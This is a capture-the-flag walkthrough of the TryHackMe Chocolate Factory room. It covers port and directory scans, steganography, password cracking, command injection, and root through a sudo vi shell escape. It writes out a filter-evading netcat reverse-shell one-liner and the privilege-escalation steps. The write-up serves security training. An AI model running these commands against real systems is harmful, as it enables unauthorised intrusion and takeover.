# __Chocolate Factory TryHackMe Writeup__

This is the writeup of the [ChocolateFactory](https://tryhackme.com/room/chocolatefactory) room.


## __First Stage : Enumeration__

Let's fire up nmap.

```
# Nmap 7.91 scan initiated Tue Jan 19 11:06:32 2021 as: nmap -sC -sV -T4 -vv -p- -oN nmapscan 10.10.110.153
Warning: 10.10.110.153 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.110.153
Host is up, received syn-ack (0.15s latency).
Scanned at 2021-01-19 11:06:33 IST for 1453s
Not shown: 65448 closed ports
Reason: 65448 conn-refused
PORT      STATE    SERVICE     REASON      VERSION
21/tcp    open     ftp         syn-ack     vsftpd 3.0.3
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-rw-r--    1 1000     1000       208838 Sep 30 14:31 gum_room.jpg
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.74.96
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open     ssh         syn-ack     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:31:bb:b5:1f:cc:cc:12:14:8f:f0:d8:33:b0:08:9b (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCuEAWoQHbW+vehIUZLTiJyXKjUAAJP0sgW/P0LHVaf4C5+1oEBXcDBBZC7SoL6MTMYn8zlEfhCbjQb7A/Yf2IxLzU5f35yuhEbWEvYmuP4PmBB04CJdDItU0xwAbGsufyzZ6td6LKm+oim8xJn/lVTeykVZTASF9iuY9tqwA933AfjqKlNByj82TAmlVkQ93bq+e7Gu/pRkSn++RkIUd4f8ogmLLusEh+vbGkZDj4UdwTIZbOSeuS4oz/umpkJPhekGVoyzjPMRIq9cwdeKIVRwUNbp4BoJjYKjbCC9YY8u/7O6lhtwo4uAp7Q9PfRRCiCpVimm6kIgBmgqqKbueDl
|   256 e7:1f:c9:db:3e:aa:44:b6:72:10:3c:ee:db:1d:33:90 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAYfNs0w6oOdzMM4B2JyB5pWr1qq9oB+xF0Voyn4gBYEGPC9+dqPudYagioH1ArjIHZFF0G24rt7L/6x1OPJSts=
|   256 b4:45:02:b6:24:8e:a9:06:5f:6c:79:44:8a:06:55:5e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAwurtl1AFxJU7cHOfbCNr34YoTmAVnVUIXt4QHPD1B2
80/tcp    open     http        syn-ack     Apache httpd 2.4.29 ((Ubuntu))
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
100/tcp   open     newacct?    syn-ack
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
101/tcp   open     hostname?   syn-ack
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
102/tcp   open     iso-tsap?   syn-ack
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
103/tcp   open     gppitnp?    syn-ack
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
104/tcp   open     acr-nema?   syn-ack
|_auth-owners: ERROR: Script execution failed (use -d to debug)
|_dicom-ping: 
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
105/tcp   open     csnet-ns?   syn-ack
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
106/tcp   open     pop3pw?     syn-ack
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
107/tcp   open     rtelnet?    syn-ack
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
108/tcp   open     snagas?     syn-ack
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
109/tcp   open     pop2?       syn-ack
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
110/tcp   open     pop3?       syn-ack
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
111/tcp   open     rpcbind?    syn-ack
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   NULL, RPCCheck: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
112/tcp   open     mcidas?     syn-ack
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
113/tcp   open     ident?      syn-ack
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, LDAPBindReq, LDAPSearchReq, NCP, NULL, NotesRPC, RTSPRequest, SIPOptions, SSLSessionReq, TerminalServer, WMSRequest, X11Probe: 
|_    http://localhost/key_rev_key <- You will find the key here!!!
114/tcp   open     audionews?  syn-ack
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
115/tcp   open     sftp?       syn-ack
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
116/tcp   open     ansanotify? syn-ack
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
117/tcp   open     uucp-path?  syn-ack
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
118/tcp   open     sqlserv?    syn-ack
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
119/tcp   open     nntp?       syn-ack
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
120/tcp   open     cfdptkt?    syn-ack
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
121/tcp   open     erpc?       syn-ack
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
122/tcp   open     smakynet?   syn-ack
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
123/tcp   open     ntp?        syn-ack
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
124/tcp   open     ansatrader? syn-ack
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
125/tcp   open     locus-map?  syn-ack
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
1887/tcp  filtered filex-lport no-response
1941/tcp  filtered dic-aida    no-response
2352/tcp  filtered pslserver   no-response
3694/tcp  filtered unknown     no-response
10264/tcp filtered unknown     no-response
10527/tcp filtered unknown     no-response
10668/tcp filtered unknown     no-response
11480/tcp filtered unknown     no-response
12394/tcp filtered unknown     no-response
12672/tcp filtered unknown     no-response
12849/tcp filtered unknown     no-response
14691/tcp filtered unknown     no-response
18118/tcp filtered unknown     no-response
19412/tcp filtered hp-sessmon  no-response
20440/tcp filtered unknown     no-response
24212/tcp filtered unknown     no-response
27361/tcp filtered unknown     no-response
28410/tcp filtered unknown     no-response
28878/tcp filtered unknown     no-response
29509/tcp filtered unknown     no-response
31241/tcp filtered unknown     no-response
31803/tcp filtered unknown     no-response
32820/tcp filtered unknown     no-response
33168/tcp filtered unknown     no-response
33522/tcp filtered unknown     no-response
34783/tcp filtered unknown     no-response
36217/tcp filtered unknown     no-response
38149/tcp filtered unknown     no-response
38717/tcp filtered unknown     no-response
38881/tcp filtered unknown     no-response
39365/tcp filtered unknown     no-response
39840/tcp filtered unknown     no-response
42126/tcp filtered unknown     no-response
42522/tcp filtered unknown     no-response
42642/tcp filtered unknown     no-response
46053/tcp filtered unknown     no-response
46378/tcp filtered unknown     no-response
47612/tcp filtered unknown     no-response
49720/tcp filtered unknown     no-response
50167/tcp filtered unknown     no-response
51017/tcp filtered unknown     no-response
51129/tcp filtered unknown     no-response
53811/tcp filtered unknown     no-response
54919/tcp filtered unknown     no-response
56899/tcp filtered unknown     no-response
56992/tcp filtered unknown     no-response
57210/tcp filtered unknown     no-response
58328/tcp filtered unknown     no-response
59224/tcp filtered unknown     no-response
60536/tcp filtered unknown     no-response
61900/tcp filtered unknown     no-response
62583/tcp filtered unknown     no-response
63054/tcp filtered unknown     no-response
63220/tcp filtered unknown     no-response
65005/tcp filtered unknown     no-response
65050/tcp filtered unknown     no-response
65209/tcp filtered unknown     no-response
65485/tcp filtered unknown     no-response

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jan 19 11:30:48 2021 -- 1 IP address (1 host up) scanned in 1456.19 seconds

```

There was many ports open , don't panic let's start with the usual ones.

So the usual ports are :

* 21
* 22
* 80


So let's fireup gobuster.

```
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.110.153/
[+] Threads:        50
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,html,php
[+] Timeout:        10s
===============================================================
2021/01/19 11:07:10 Starting gobuster
===============================================================
/index.html (Status: 200)
/home.php (Status: 200)
/validate.php (Status: 200)
/server-status (Status: 403)
===============================================================
2021/01/19 11:51:52 Finished
===============================================================
```

So let's go for **FTP**  and try anonymous login.





Hence we got a img file we can use steghide .

> steghide --info gum_room.jpg




With no password we can extract **b64.txt**.

Hence 

>steghide --extract -sf gum_room.jpg




So if we open it is base64 encoded as expected . Let's go to [CyberChef](https://gchq.github.io/CyberChef/).





Hence I used john to crack it took around 10 minutes(approx).


Since we have the password for user charlie , I initially thought it must be ftp password (yes I know it is not ssh because wont it be obvious?). But no It was not ftp password.


Hence I visited **port 80**


So I used the password we found and it worked.


After we login we can see .




So we can execute commands !.


Hence I tried "ls" and I saw something **interesting**.





Hence this is the key asked in the first question .


We download it by going to 

> http://\<machineip>/key_rev_key


Let's keep the key it might be useful in later stage.


## __Second Stage : Initial Access as www-data__


Hence we have command injection let's try reverse shell.

But definitely there would be filters hence I used this technique:

> r"m" /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc \<vpn ip> 4444 >/tmp/f




## __Third Stage : www-data to charlie__


Hence I enumerated manually without using __linpeas__.

I went to charlie's home directory . I found something **interesting.**





Hence they are private and public keys of __charlie__(i guess so ).


Hence I copied and used it .


```shell
chmod 600 teleport
ssh -i teleport charlie@<machine-ip>
```


## __Fourth Stage : charlie to root__


As always I try 

> sudo -l




Hence  I went to **[GTFOBins](https://gtfobins.github.io/)** and searched for __vi__. 


So steps to exploit is :

```shell
sudo /usr/bin/vi
:set shell=/bin/sh
:shell
```



So we go to **/root** directory .





So the flag is in the form of python file.

Let's see whats in it.

```python
from cryptography.fernet import Fernet
import pyfiglet
key=input("Enter the key:  ")
f=Fernet(key)
encrypted_mess= '<redacted-msg>'
dcrypt_mess=f.decrypt(encrypted_mess)
mess=dcrypt_mess.decode()
display1=pyfiglet.figlet_format("You Are Now The Owner Of ")
display2=pyfiglet.figlet_format("Chocolate Factory ")
print(display1)
print(display2)
print(mess)
```

Hence the flag can be obtained if we provide the key we got during enumeration. 


Let's run it.


>### note : enter the key between "\<key> "


